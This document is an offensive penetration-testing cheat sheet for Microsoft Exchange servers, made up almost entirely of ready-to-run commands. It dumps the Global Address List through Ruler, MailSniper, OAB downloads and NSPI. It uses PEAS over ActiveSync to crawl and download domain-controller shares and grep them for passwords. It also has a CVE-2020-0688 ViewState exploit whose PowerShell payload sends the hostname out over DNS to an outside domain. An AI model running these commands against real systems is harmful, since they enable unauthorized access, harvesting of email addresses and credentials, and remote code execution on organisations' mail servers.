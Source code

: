 # Exchange

* [https://swarm.ptsecurity.com/attacking-ms-exchange-web-interfaces/](https://swarm.ptsecurity.com/attacking-ms-exchange-web-interfaces/)
* [Pentesting Exchange Mindmap](https://raw.githubusercontent.com/Orange-Cyberdefense/arsenal/master/mindmap/Pentesting_MS_Exchange_Server_on_the_Perimeter.png) · [Orange-Cyberdefense/arsenal](https://github.com/Orange-Cyberdefense/arsenal)

## GAL

### Ruler

```text
$ ./ruler -k -d megacorp.com -u snovvcrash -p 'Passw0rd!' -e snovvcrash@megacorp.com --verbose abk dump -o gal.txt
```

### MailSniper

```text
PS > Get-GlobalAddressList -ExchHostname mx.megacorp.com -UserName MEGACORP\snovvcrash -Password 'Passw0rd!' -OutFile gal.txt
```

### OAB

Search for `<OABUrl>` node using Burp:

```text
POST /autodiscover/autodiscover.xml HTTP/1.1
Host: mx.megacorp.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Authorization: Basic TUVHQUNPUlBcc25vdnZjcmFzaDpQYXNzdzByZCEK
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Content-Length: 350

<Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006">
    <Request>
      <EMailAddress>snovvcrash@megacorp.com</EMailAddress>
      <AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema>
    </Request>
</Autodiscover>
```

Or with a Python [script](https://gist.github.com/snovvcrash/4e76aaf2a8750922f546eed81aa51438):

```text
$ ./oaburl.py MEGACORP/snovvcrash:'Passw0rd!'@mx.megacorp.com -e 'existent.email@megacorp.com'
[*] Authenticated users's SID (X-BackEndCookie): S-1-5-21-3167813660-1240564177-918740779-3102
[+] DisplayName: Sam Freeside
[+] Server: 00ff00ff-00ff-00ff-00ff-00ff00ff00ff@megacorp.com
[+] AD: dc01.megacorp.com
[+] OABUrl: https://mx.megacorp.com/OAB/<OABUrl>/
```

Get oab.xml and then gal.lzx:

```text
$ curl -k --ntlm -u 'MEGACORP\snovvcrash:Passw0rd!' https://mx.megacorp.local/OAB/<OABUrl>/oab.xml > oab.xml
$ cat oab.xml | grep '.lzx' | grep data
$ curl -k --ntlm -u 'MEGACORP\snovvcrash:Passw0rd!' https://mx.megacorp.local/OAB/<OABUrl>/11ff11ff-11ff-11ff-11ff-11ff11ff11ff-data-999.lzx > gal.lzx
```

Install libmspack:

```text
$ git clone https://github.com/kyz/libmspack ~/tools/libmspack && cd ~/tools/libmspack/libmspack
$ sudo apt install autoconf libtool -y
$ ./rebuild.sh && ./configure && make && cd -
```

Parse gal.lzx into gal.oab and extract emails from gal.oab with a regexp:

```text
$ ~/tools/libmspack/libmspack/examples/oabextract gal.lzx gal.oab
$ strings gal.oab | egrep -o "[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,4}" | sort -u > emails.txt
```

## ActiveSync

### PEAS

* [https://labs.f-secure.com/archive/accessing-internal-fileshares-through-exchange-activesync/](https://labs.f-secure.com/archive/accessing-internal-fileshares-through-exchange-activesync/)
* [https://labs.f-secure.com/tools/peas-access-internal-fileshares-through-exchange-activesync/](https://labs.f-secure.com/tools/peas-access-internal-fileshares-through-exchange-activesync/)
* [https://github.com/FSecureLABS/peas](https://github.com/FSecureLABS/peas)
* [https://github.com/snovvcrash/peas](https://github.com/snovvcrash/peas)

Install:

```text
$ git clone https://github.com/snovvcrash/peas ~/tools/peas-m && cd ~/tools/peas-m
$ python3 -m virtualenv --python=/usr/bin/python venv && source venv/bin/activate
(venv) $ pip install --upgrade 'setuptools<45.0.0'
(venv) $ pip install -r requirements.txt
```

Run:

```text
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --check
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --list-unc='\\DC01'
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --list-unc='\\DC01\SYSVOL\megacorp.com'
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --dl-unc='\\DC01\share\file.txt'
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --dl-unc='\\DC01\share\file.txt' -o file.txt
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --crawl-unc='\\DC01\share\' [--pattern xml,ini] [--download]
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --brute-unc [--prefix srv]
```

### How-To

1. Use Nmap `http-ntlm-info` to get NetBIOS domain name and Exchange hostname: hunting for hostname pattern prefix if there is one.

2. Locate DC \(guess it trying hostname pattern prefix\) and mirror `\\DC01\SYSVOL\megacorp.local\` share with `--crawl-unc` function:

```text
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --crawl-unc='\\DC01\SYSVOL\megacorp.com\' --download
```

3. Find, xargs and grep for keywords in files: `password`, NetBIOS domain name \(for additional account names\), hostname pattern prefix \(for additional hosts/shares\):

```text
$ find . -type f -print0 | xargs -0 grep -v PolicyDefinitions | grep -i -e password -e pass
$ find . -type f -print0 | xargs -0 grep -v PolicyDefinitions | grep -i <DOMAIN_NETBIOS_NAME>
$ find . -type f -print0 | xargs -0 grep -v PolicyDefinitions | grep -i <PREFIX>
```

4. \(optional\) Brute other share names:

```text
$ python -m peas --brute-unc -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com [--prefix srv]
```

## CVE-2020-0688

* [https://www.thezdi.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys](https://www.thezdi.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys)
* [https://github.com/pwntester/ysoserial.net/releases](https://github.com/pwntester/ysoserial.net/releases)
* [https://github.com/MrTiz9/CVE-2020-0688](https://github.com/MrTiz9/CVE-2020-0688)

```text
Get ViewStateUserKey: Browser → F12 → Storage → ASP.NET_SessionId
Get ViewStateGenerator: Browser → F12 → Console → document.getElementById("__VIEWSTATEGENERATOR").value
PS > [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('$name = hostname;nslookup "$name.0000000000ffffffffff.d.zhack.ca"'))
PS > .\ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "powershell -exec bypass -enc <BASE64_CMD>" --validationalg "SHA1" --validationkey "CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --viewstateuserkey "<VIEWSTATE>" --generator "<GENERATOR>" --islegacy --isdebug
https://mx.megacorp.com/ecp/default.aspx?__VIEWSTATEGENERATOR=<GENERATOR>&__VIEWSTATE=<VIEWSTATE>
```

## NSPI

* [https://swarm.ptsecurity.com/attacking-ms-exchange-web-interfaces/](https://swarm.ptsecurity.com/attacking-ms-exchange-web-interfaces/)
* [https://github.com/ptswarm/impacket](https://github.com/ptswarm/impacket)
* `>= Impacket v0.9.22.dev1+20200819.170651.b5fa089b`

List Address Books and count entities in every one of them:

```text
$ exchanger.py MEGACORP/snovvcrash:'Passw0rd!'@mx.megacorp.com -debug nspi list-tables -count
```

Dump any specified Address Book by its name or GUID:

```text
$ exchanger.py MEGACORP/snovvcrash:'Passw0rd!'@mx.megacorp.com -debug nspi dump-tables -guid 00ff00ff-00ff-00ff-00ff-00ff00ff00ff -lookup-type EXTENDED -output-file gal.txt
$ cat gal.txt | grep 'mail,' | sort -u | awk -F' ' '{print $3}' > emails.txt
```

Return AD objects by their GUIDs:

```text
PS > (Get-ADuser -Identity snovvcrash).ObjectGUID
$ exchanger.py MEGACORP/snovvcrash:'Passw0rd!'@mx.megacorp.com -debug nspi guid-known -guid 00ff00ff-00ff-00ff-00ff-00ff00ff00ff -lookup-type FULL
```

Dump all AD records via requesting DNTs:

```text
$ exchanger.py MEGACORP/snovvcrash:'Passw0rd!'@mx.megacorp.com -debug nspi dnt-lookup -lookup-type EXTENDED -start-dnt 0 -stop-dnt 500000 -output-file dnt-dump.txt
```

